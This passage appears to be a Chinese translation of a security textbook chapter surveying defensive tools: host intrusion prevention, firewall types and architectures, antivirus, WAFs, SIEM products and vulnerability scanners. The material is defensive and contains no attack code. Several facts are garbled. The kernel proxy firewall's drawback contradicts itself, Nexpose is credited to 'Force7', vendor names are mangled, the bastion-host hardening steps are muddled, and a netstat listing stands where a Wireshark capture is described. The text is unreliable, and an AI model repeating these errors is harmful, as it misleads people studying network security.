

# HIPS

主机入侵入侵防御系统（`HIPS`）监控单个系统上的流量。其主要职责是保护其安装的系统。`HIPS` 通常与反病毒软件产品和主机防火墙产品紧密配合。它们通常监控网站和应用程序与操作系统的交互，并阻止任何恶意活动，或者在某些情况下，要求用户批准应用程序或网站想要对系统进行的更改。`HIPS` 的一个示例是 `SafenSoft SysWatch`。

# 防火墙

与安全概念最相关的网络设备可能莫过于防火墙。防火墙可以是安装在服务器或客户端操作系统上的软件程序，也可以是具有自己操作系统的设备。无论哪种情况，防火墙的工作都是检查并控制允许的流量类型。防火墙的类型在第 1 章中讨论。

表 14-2 列出了各种类型防火墙的优缺点。


# 表 14-2. 防火墙类型的优缺点

| 类型 | 优点 | 缺点 |
| --- | --- | --- |
| 包过滤防火墙 | 提供最佳性能 | 无法防止以下内容：IP 伪造、针对特定应用程序的攻击、依赖数据包分片的攻击、利用 TCP 握手的攻击 |
| 电路级代理 | 保护地址免于暴露；支持多协议环境；允许详细日志记录 | 对性能有轻微影响；可能需要计算机上安装客户端（SOCKS 代理）；没有应用层安全 |
| 应用层代理 | 理解应用程序在第 7 层通信过程的细节 | 对性能影响很大 |
| 内核代理防火墙 | 检查 OSI 模型中每一层的数据包 | 像应用层代理那样不影响性能 |

尽管每个场景都是独特的，但每种防火墙类型的典型部署如表 14-3 所示。


# 表 14-3. 防火墙的典型位置

| 类型 | 位置 |
| --- | --- |
| 包过滤防火墙 | 子网之间 |
| 电路级代理 | 边缘 |
| 应用层代理 | 靠近应用程序 |
| 内核代理防火墙 | 靠近系统 |

# 架构

虽然防火墙类型指的是其运行方式，但架构指的是防火墙部署的方式。

# 堡垒机

正如你在第 1 章中学到的，堡垒机可能暴露在互联网上。该术语指的是一个设备。在任何必须从互联网访问的情况下，您应该采取以下措施：

- 禁用所有不必要的服务
- 加密本地帐户和密码
- 安装适当的服务包、热补丁
- 使用身份验证和数据库

以下是某些位置：

- `同时位于外部`：这种设置会让主机处于危险之中。
- `仅在外部之后`：这是最常见的位置。

# 图 14-4. 屏幕子网中的堡垒机



# 双主机防火墙

双主机防火墙有两个接口：一个指向内部网络，另一个连接不可信的网络。在许多情况下，这些接口之间的路由是被关闭的。防火墙根据管理员配置的防火墙规则允许或拒绝流量。这种设置的一些优点如下：

- 配置简单
- 可以执行 IP 掩装（NAT）
- 比两台防火墙成本更低

缺点包括：

- 存在单点故障
- 没有其他方案那么安全

双主机防火墙（也称为双主机主机）的位置如图 14-5 所示。

# 图 14-5. 双主机防火墙的位置



# 多主机防火墙

你可能在第 1 章中记得过防火墙可以是多主机的。一种流行的类型是三脚防火墙。在这种配置中，有三个接口：一个连接到不可信网络，一个连接到内部网络，另一个连接到被称为非军事化区（DMZ）的网络部分，DMZ 是包含需要更高保护系统的保护网络。三脚防火墙的优点包括：

- 节省了设备成本，因为只需要一个防火墙而不是两个或三个。
- 可以在内部网络上执行 IP 掩装（NAT），而对 DMZ 则不这样做。

缺点是：

- 配置的复杂性增加了
- 存在单点故障。

三脚防火墙的位置如图 14-6 所示。

# 图 14-6. 三脚防火墙的位置

# 过滤主机防火墙 (Screened Host Firewalls)

正如你在第一章中所记忆的，过滤主机是位于最终路由器和内部网络之间的防火墙。该解决方案的优点包括：

- 它比双宿主机防火墙更具灵活性，因为它通过规则而非接口来实现隔离。
- 具有潜在的成本效益。

其缺点包括：

- 配置更为复杂。
- 相比双宿主机防火墙，更容易违反安全策略。

过滤主机防火墙的位置如图 14-7 所示。

# 图 14-7. 过滤主机防火墙的位置



# 过滤子网 (Screened Subnets)

正如第一章提到的，在过滤子网中使用了两个防火墙，流量在进入内部网络之前必须在两个防火墙上进行检查。过滤子网的优点包括：

- 它在内部网络之前提供了两个防火墙带来的额外安全保障。
- 一个防火墙放置在 DMZ 之前，保护 DMZ 中的设备。

缺点包括：

- 比使用双宿主机防火墙或三脚形防火墙更昂贵。
- 配置两个防火墙增加了复杂性。

图 14-8 显示了创建过滤子网的防火墙部署。路由器充当外部防火墙，而防火墙设备是第二个防火墙。



在任何使用多个防火墙的情况下（例如两个防火墙组成的的活动/备用集群），都应确保 TCP 会话在穿过一个防火墙时，同一会话的返回流量不会穿过另一个防火墙。当执行状态过滤时，返回流量将被拒绝，从而导致用户连接中断。

在现实世界中，各种防火墙方法被混合使用以满足需求，你可能会发现所有这些架构概念的元素被应用于特定场景。

# 思科 (Cisco)

思科防火墙被称为自适应安全设备 (`ASA`)。你可能仍发现部署了一些早期的思科防火墙产品，称为私有互联网交换 (`PIX`)。`ASA` 可以作为设备安装，也可以作为插件模块集成到路由器和交换机中。这种防火墙的功能远超简单的防火墙功能，还可以进行内容检查。它可以被用于创建多种类型的 `VPN` 连接，其中某些需要客户端安装软件，而某些不需要。最后，它还包含了内置的 `IPS`。

# 派洛世 (Palo Alto)

`Palo Alto` 制造下一代防火墙，这意味着它们执行 `ASA` 中许多许多功能。虽然 `Palo Alto` 防火墙的部署没有思科和 `Check Point`（下文介绍）那么广泛，但在 2016 年的 `Gartner` 魔象限（Magic Quadrant）中，`Palo Alto` 被确定企业防火墙的领导者。它会将未知威胁发送到云端进行分析。

# Check Point

在 20 世纪 90 年代，`Check Point` 是防火墙领域的统治者，现在仍然是一个主要的供应商。与其他供应商一样，`Check Point` 已经转向下一代平台，整合了 `ASA` 和 `Palo Alto` 防火墙中的许多特性。

# 杀病毒软件 (Antivirus)

杀病毒软件旨在识别病毒、木马和蠕虫。它们会删除这些病毒或至少将它们隔离直到可以被移除。这种识别过程要求你经常更新软件的定义文件，这些文件使软件能够识别最新的病毒。如果创建了一个列表中尚未被识别的新病毒，在添加病毒定义并下载新定义文件之前，你无法防范该病毒的攻击。

# 反恶意软件 (Anti-malware)

在与恶意软件的斗争中，我们并非无能为力。既有程序也有实践方法可以帮助减轻恶意软件可能造成的破坏。反恶意软件处理有问题的软件，如广告软件、间谍软件、病毒、蠕虫以及其他其他形式的破坏性软件。如今大多数商业应用程序将反恶意软件、杀病毒和反间谍软件整合到单一工具中。杀病毒工具仅防护病毒。反间谍工具防护间谍软件。安全专业人员应该审阅他们考虑的任何工具的文档，以便了解其提供的保护功能。

在安全上网使用实践方面的用户教育是防止恶意软件的必要部分。这种教育应该是安全策略的一部分，并应包括以下主题：

- 保持反恶意软件程序为最新版本
- 执行每日或每周扫描
- 禁用自动运行/自动播放
- 禁用 Outlook 中的图像预览
- 避免点击电子邮件链接或附件
- 明智地上网
- 使用内容钓鱼过滤器和安全区域加固浏览器

# 反间谍软件 (Anti-spyware)

间谍软件跟踪你的活动，并收集可能导致身份盗窃的个人信息。在某些情况下，间谍软件甚至指示计算机安装软件并更改设置。大多数杀病毒或反恶意软件软件包也处理间谍软件，确保这两个程序的定义都是最新的是解决此问题的关键。

一种只有在用户参与（通过点击他不应该点击的内容）的情况下才能安装的程序是键盘记录器（key logger）。这些程序记录所有的击键。

# 云杀病毒服务 (Cloud Antivirus Services)

云杀病毒产品不在计算机上运行，而在云端运行，占用空间更小。它们具有以下优点：

- 它们允许在几分钟内访问最新的恶意软件数据。
- 它们消除了持续更新软件的需求。
- 客户端很小，对处理能力要求较低。

云杀病毒产品具有以下缺点：

- 存在客户端到云的关系，这意味着这些产品无法离线运行。
- 它们可能只扫描文件。
- 它们高度依赖网络连接。

反垃圾邮件服务也可以从云端提供。`Postini` 和 `Minecast` 会扫描你的邮件并将识别为垃圾邮件的内容存储在它们的服务器上。如图 14-9 所示，邮件首先通过云服务器，在那里问题邮件会被隔离。然后用户可以随时通过浏览器查看隔离的项目。

# 图 14-9. 云杀病毒



# EMET

`EMET` 是微软的一套缓解工具，有助于防止软件漏洞被利用。虽然它使用的技术为利用漏洞制造了障碍，但它无法保证在这方面成功，应被视为（如其名所示）一种增强而非最终解决方案。

`EMET` 关注那些无法使用 `CPU` 或 `Windows` 安全措施的应用程序，例如数据执行保护 (`DEP`)、结构化异常覆盖保护、地址空间随机化和证书信任。`EMET` 扫描涵盖这些类别，并提供对应用程序强制执行这些功能的选项。此操作可能会或不会导致应用程序停止运行。

Web 应用防火墙（`WAF`）对 `HTTP` 会话应用规则集。这些规则集涵盖了此类会话类型容易遭受的常见攻击。它们处理的常见攻击包括跨站脚本和 `SQL` 注入。`WAF` 可以以硬件设备或服务器插件的形式实现。以设备形式，`WAF` 通常直接位于防火墙之后、Web 服务器集群之前；图 14-10 显示了一个示例。

# 图 14-10. WAF 的部署位置



虽然所有流量通常通过设备进行内联处理，但某些解决方案监控端口并进行带外运行。表 14-4 列出了这两种方法的优缺点。最后，`WAF` 也可以直接安装在 Web 服务器本身上。

`WAF` 涉及的安全问题包括：

- IT 基础设施变得更加复杂。
- 每次发布新的 Web 应用程序，都必须提供有关 WAF 的培训。
- 测试程序可能会随每次发布而发生变化。
- 可能会发生误报，并对业务产生重大影响。
- 故障排除变得更加复杂。
- WAF 终止应用程序会话可能会对 Web 应用程序产生影响。

## 关键主题

# 表 14-4. WAF 部署选项的优缺点

| 类型 | 优点 | 缺点 |
| --- | --- | --- |
| 内联 (In-line) | 可以防止实时攻击 | 可能会减慢网络流量；可能会阻塞合法流量 |
| 带外 (Out-of-band) | 非侵入性；不干扰流量 | 无法拦截实时流量 |

# ModSecurity

`ModSecurity` 是一个旨在保护 `Apache`、`nginx` 和 `IIS` 的工具包。它是开源并支持 `OWASP` 规则集（`CRS`）。它提供的功能包括：

- 实时应用程序监控和访问控制
- Web 应用加固
- 完整的 HTTP 流量日志
- 持续被动安全评估

当 `ModSecurity` 拦截操作时，会在应用程序日志中记录信息，如图 14-11 所示。注意此图中信息部分，`ModSecurity` 拦截了一个操作。

# 图 14-11. ModSecurity 事件



# NAXSI

Nginx Anti XSS & SQL Injection (`NAXSI`) 是一种用于 `nginx` 服务器的开源 `WAF`。它通过你创建的白名单来允许或禁止某些操作。你以学习模式安装它，并运行一段时间（几天或几周），以便它可以学习流量模式。然后，你创建并将白名单应用到你的规范中。

有关安装和使用 `NAXSI` 的信息，请参：

`www.digitalocean.com/community/tutorials/how-to-install-and-configure-naxsi-on-ubuntu-14-04`。

# Imperva

`Imperva` 是一种商业 `WAF`，它使用专利动态应用程序分析技术来学习 Web 应用的所有方面，包括目录、`URL`、参数和允许的用户输入，以检测攻击。该公司还提供许多其他安全产品，其中许多可以作为硬件设备安装，也可以购买可以部署在 `VMware`、`AWS` 或 `Microsoft Azure` 平台上的镜像。`Imperva` 还可以轻松与大多数 `SIEM` 系统集成（在下一节讨论）。

欲更多信息，请访问 `www.imperva.com/index-b`。

# 聚合工具

聚合工具是一系列工具，用于收集信息并进行组织，使其具有可操作性。这些工具之间的区别在于它们收集的信息类型以及执行收集时的方法。

## SIEM

安全信息日志事件管理（`SIEM`）工具从关键系统的日志文件中接收信息，并完成对这些数据的收集和分析。`SIEM` 技术是两种密切相关技术的交汇：安全信息管理（`SIM`）和安全事件管理（`SEM`）。接下来的章节将讨论 `SIEM` 系统的示例。

# ArcSight

`ArcSight` 隶属于 `HP`，销售 `SIEM` 系统，这些系统从安全技术、操作系统、应用程序和其他日志源收集安全日志数据，并分析数据以寻找入侵、攻击或其他恶意活动的迹象。该解决方案有多种模型，基于系统每秒可以处理的事件数量和支持的设备数量。选择模型对于，确保设备不会在尝试访问流量时过载。该解决方案还可以生成针对 `HIPAA`、`SOX` 和 `PCI-DSS` 的合性报告。

更多信息，请参阅 `https://saas.hpe.com/en-us/software/siem-security-information-event-management`。

# QRadar

`IBM` 的 `SIEM` 解决方案 `QRadar` 声称通过应用高级分析将多个事件链起来，并识别需要采取的安全违规行为，帮助消除噪声。购买还允许访问 `IBM Security App Exchange` 进行威胁协作和管理。

相关信息，请参阅 `www-03.ibm.com/software/products/en/qradar`。

# Splunk

`Splunk` 是一个 `SIEM` 系统，可以部署为本地或云端解决方案。它捕获的数据可以使用用 `Splunk` 搜索处理语言（`SPL`）编写的查询进行分析。`Splunk` 使用通过连接器或插件导入机器驱动数据。例如，适用于 `Oracle Database` 的 `Splunk` 插件允许 `Splunk` 软件统一安全管理员从 `Oracle` 数据库服务器收集并摄入数据。

# AlienVault/OSSIM

`AlienVault` 商业和开源 `SIEM` 系统。开源安全信息管理（`OSSIM`）是开源版本，而商用的 `AlienVault` 统一安全（`USM`）超越了传统的 `SIEM`，集成了威胁情报。图 14-12 显示了 `AlienVault` 控制台的视图。

图 14-12. AlienVault



# Kiwi Syslog

`Kiwi Syslog` 是一种日志管理软件，基于 `Windows` 或 `Linux`，提供主机和 `SNMP` 数据的集中存储。虽然它结合了 `SNMP` 收集器和日志管理器的功能，但缺少其他系统的许多功能；它非常经济。

# 网络扫描

黑客使用网络扫描工具绘制网络映射，或获取设备和防火墙位置关系的画像。安全专业人员可以使用网络扫描工具确定恶意个人使用这些工具时是可见的。

# Nmap

虽然网络扫描可以使用粗暴的工具（如 `ping`）进行，但 `Nmap` 更具隐蔽性，可以在不触发防火墙和 `IDS` 的情况下执行。需要注意的是，虽然我们在网络扫描背景下讨论 `Nmap`，该工具也可用于许多其他操作，包括执行某些攻击。用于扫描时，它通常定位设备、定位设备上的开放端口并确定每个主机的操作系统。

# 漏洞扫描

端口扫描器可以发现开放端口，而漏洞扫描器可以探测各种安全漏洞，包括配置错误、过时软件、缺失补丁和开放端口。这些解决方案可以是本地的或云端的。云端漏洞扫描是一种从供应商云端执行的服务，是软件即服务（`SaaS`）的良好示例。这里的处与从任何 `SaaS` 产品中获得的益处相同——即订阅者不需要设备，在本地网络中不留痕迹。图 14-13 显示了本地漏洞扫描方法，图 14-14 显示了云端解决方案。在本地方法中，硬件和/软件漏洞扫描器以及相关组件完全安装在客户现场，而在云端方法中，漏洞管理平台位于云端。用于外部漏洞评估的漏洞扫描器位于解决方案提供者的站点，现场另有额外的扫描器。

图 14-13. 本地扫描


图 14-14. 云端扫描

## 云端解决方案


以下是云端处理方法的优势：

- 安装成本低，因为客户端不需要完成安装和配置。
- 维护成本低，因为只有一个中心化组件需要维护，且由供应商（而非终端客户）维护。
- 升级包含在订阅费用中。
- 成本由所有客户分摊。

然而，云端方法也有一个显著的缺点。本地化部署将扫描结果存储在组织的本地站点，而在云端部署中，数据驻留在提供者处。这意味着客户依赖提供者来确保漏洞数据的安全性。

## Qualys

`Qualys` 是一个云端漏洞扫描器的示例。传感器被放置在整个网络中，并将数据上传到云端进行分析。传感器可以实现为专用设备，也可以作为主机上的软件实例存在。第三种选择是将传感器作为镜像部署在虚拟机上。

## Nessus

最常用的漏洞扫描器之一是 `Nessus`，它是由 `Tenable Network Security` 开发的专有工具。它在非企业环境下的个人使用是免费的。图 14-15 显示了 `Nessus` 的部分截图。`Nessus` 首先在输出的顶部列出主机上评级为最高严重的问题。

## 图 14-15. Nessus


对于图 14-15 中扫描的计算机，你可以看到有一个高严重级别的问题（位于主机上的 `Firebird` 数据库的默认密码），还有五个中等级别的问题，包括两个不可信任的 `SSL` 证书和一个远程桌面中间人攻击漏洞。

## OpenVAS

正如你可能推测的那样，`OpenVAS` 工具是开源的。它基于 `Nessus` 代码开发，并作为许多 `Linux` 发行版的包提供。该扫描器配有定期更新的网络漏洞测试（`NVT`）源。它使用了图 14-16 所示的 `Greenbone` 控制台。

## 图 14-16. OpenVAS


## Nexpose

`Nexpose` 是一个漏洞扫描器，有一个名为社区版的免费版本，以及由 `Force7` 商业销售的其他版本。社区版支持最多 32 个主机的扫描。它支持对包括 `PCI` 在内的标准进行合规性报告。

## Nikto

`Nikto` 是专门用于 Web 服务器的漏洞扫描器。它适用于 `Linux`，但可以通过 `Perl` 解释器在 `Windows` 上运行。该工具并不隐蔽，但它是一个速度更快的扫描器。所有的操作都会记录在你的日志中。它会产生大量信息，其中大部分是正常或信息性的。这是一个命令行工具，通常在 `Kali Linux` 服务器内部运行，并预装了 300 多个渗透测试程序。

## 微软基准安全分析器

微软基准安全分析器 (`MBSA`) 是一个 `Windows` 工具，可以扫描各种漏洞，包括安全补丁、缺失的操作系统更新、缺失的防病毒更新和弱密码。它还能识别应用程序的问题。虽然它不包含在 `Windows` 中，但它是免费下载的。图 14-17 显示了 `MBSA` 扫描结果的一个示例。你可以在列出的结果列表中扫描设备上发现的安全问题列表。

## 图 14-17. MBSA


# 数据包捕获

嗅探（Sniffing）是为了分析而捕获包的过程；当恶意使用时，嗅探被称为窃听。当攻击者向通信介质连接或插入设备或软件以收集通过介质传输的所有信息时，就会发生嗅探。嗅探被称为协议分析器，它们从网络收集原始包；安全专业人员和攻击者都使用它们。

嗅探在不向网络传输任何数据的情况下执行其功能，当工具被合法使用时是一个优势，当它被用于对付时是一个缺点（因为你无法知道自己正在被嗅探）。

## Wireshark

最常用的嗅探器之一是 `Wireshark`。它捕获配置所在接口上的原始包，并允许你检查每个包。如果数据未加密，你就可以读取数据。图 14-18 显示了 `Wireshark` 使用的示例。

## 图 14-18. Wireshark


在图 14-18 显示的输出中，每行代表一个在网络上捕获的包。你可以看到源 `IP` 地址、目的 `IP` 地址、使用的协议以及包中的信息。例如。

```
C:\Users\tmcmillan\netstat
```

# 活跃连接

| 协议 | 本地地址 | 外地地址 | 状态 |
|---|---|---|---|
| TCP | 10.88.2.103:51273 | 64.94.18.154 | 建立连接 |
| TCP | 10.88.2.103:51525 | srat1060:microsoft-ds | 建立连接 |
| TCP | 10.88.2.103:51529 | gnonalvatga:microsoft-soft-ds | 建立连接 |
| TCP | 10.88.2.103:51573 | s3-noc-http:187 | 建立连接 |
| TCP | 10.88.2.103:51616 | schoiop0127 | 建立连接 |
| TCP | 10.88.2.103:51228 | schoiop0127 | 建立连接 |
| TCP | 10.88.2.103:51221 | schoiop0127 | 建立连接 |
| TCP | 10.88.2.103:51229 | 69.31.11.26 | 等待关闭 |
| TCP | 10.88.2.103:51824 | calvert:55026 | 建立连接 |
| TCP | 10.88.2.103:53865 | ce2919p:5308 | 建立连接 |
| TCP | 10.88.2.103:53971 | slip109hot | 建立连接 |
| TCP | 10.88.2.103:52222 | ord088-in-f22:https | 建立连接 |
| TCP | 10.88.2.103:62567 | ord0880-in-f22:https | 等待关闭 |
| TCP | 10.88.2.103:62682 | by2nmg23:01603 | 建立连接 |
| TCP | 10.88.2.103:62754 | hoiv33:mmp | 建立连接 |
